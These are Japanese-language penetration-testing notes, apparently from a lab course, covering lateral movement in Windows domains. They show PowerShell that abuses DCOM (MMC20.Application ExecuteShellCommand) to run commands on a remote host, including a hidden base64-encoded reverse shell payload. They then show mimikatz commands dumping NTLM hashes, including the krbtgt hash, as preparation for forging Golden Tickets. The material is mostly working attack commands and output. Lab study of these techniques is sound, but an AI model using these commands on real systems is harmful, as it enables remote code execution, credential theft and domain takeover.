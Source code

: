 
### DCOMで横展開

MMC アプリケーション クラスを使用すると、Document.ActiveViewプロパティの下でExecuteShellCommandメソッドを公開するアプリケーション オブジェクト8を作成できます。  
その名前が示すように、この方法では、認証されたユーザーが許可されている限り、任意のシェル コマンドを実行できます。  
これがローカル管理者のデフォルトです。  


```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")


CLIENT74 からこれら 2 つの PowerShell 行を実行すると、電卓アプリのインスタンスが生成されているはず
C:\Users\Administrator>tasklist | findstr "calc"
win32calc.exe                 4764 Services                   0     12,132 K

リバースシェルをBASE64でエンコードして以下のペイロードを実行
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```


### ゴールデンチケット

krbtgtパスワード ハッシュを入手できれば、ゴールデン チケットとも呼ばれる独自のカスタム TGT を作成できます。  
**ゴールデンチケットはドメインのリソース全体にアクセスする許可を与えてくれる**  
※シルバーチケットは特定のサービスのアクセスのみ  

たとえば、特権のないユーザーが実際には Domain Admins グループのメンバーであることを示す TGT を作成できます。  
この TGT は正しく暗号化されているため、ドメイン コントローラーはそれを信頼します。  
また、krbtgtアカウントのパスワードが自動的に変更されないという利点もある  
  
必要なクレデンシャル情報  
・krbtgtのNTLMハッシュ  
・krbtgtのドメインSID  

```
lsadump::lsaコマンドでkrbtgtパスワードハッシュをダンプする

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch
Domain : CORP / S-1-5-21-1987370270-658905905-1781884369

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2892d26cdf84d7a70e2eb3b9f05c425e

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 1693c6cefafffc7af11ef34d1c788f47
...


```